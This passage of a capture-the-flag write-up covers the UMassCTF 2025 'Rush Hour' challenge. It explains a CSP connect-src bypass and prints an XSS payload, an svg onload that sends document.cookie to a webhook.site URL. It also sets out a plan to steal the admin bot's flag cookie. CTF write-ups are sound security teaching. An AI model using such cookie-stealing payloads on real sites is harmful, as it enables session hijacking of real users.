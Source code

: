 ```
The HTTP Content-Security-Policy (CSP) connect-src directive restricts the URLs which can be loaded using script interfaces. The following APIs are controlled by this directive:
  [+] The ping attribute in <a> elements
  [+] fetch()
  [+] fetchLater() Experimental
  [+] XMLHttpRequest
  [+] WebSocket
  [+] EventSource
  [+] Navigator.sendBeacon()
```

There are many ways to bypass this such as using `iframe` or `img` or `svg` tag. I choose to use `svg` tag with `onload` event.

```html
<svg onload=location.href="http://webhook.site/your-web-hook?cookie="+document.cookie>
```

Of course life is not easy like that. Although the payload works and we do get the cookie, but what we need is the flag cookie, not the user cookie. So there’s still some work to be done.

![Dump Payload](/assets/source/umassctf-2025/Rush_Hour/dump_payload.png)

As mentioned above, in order to get the flag cookie, we need make the admin bot get to their own page. As we have already know the admin's id (it is exposed in `/report/:id` or we can obtain it from the above payload), we can craft a payload that redirect the admin bot to their page and then redirect again to our webhook. Or more simply, just navigate to `/`, which will automatically redirect to `/report/:id`.

```javascript
app.get('/', async (req, res) => {
  let UID;
  if(!req.cookies || !req.cookies.user || !(await client.exists(req.cookies.user))){
    UID = uuidv4();
    await set_cache(UID,["This is my first note!"]);
    await set_cache(UID + "_cust",0);
    res.set({'Set-Cookie':`user=${UID}`});
  } else {
    UID = req.cookies.user;
  }
  res.redirect(`/user/${UID}`);
})
```
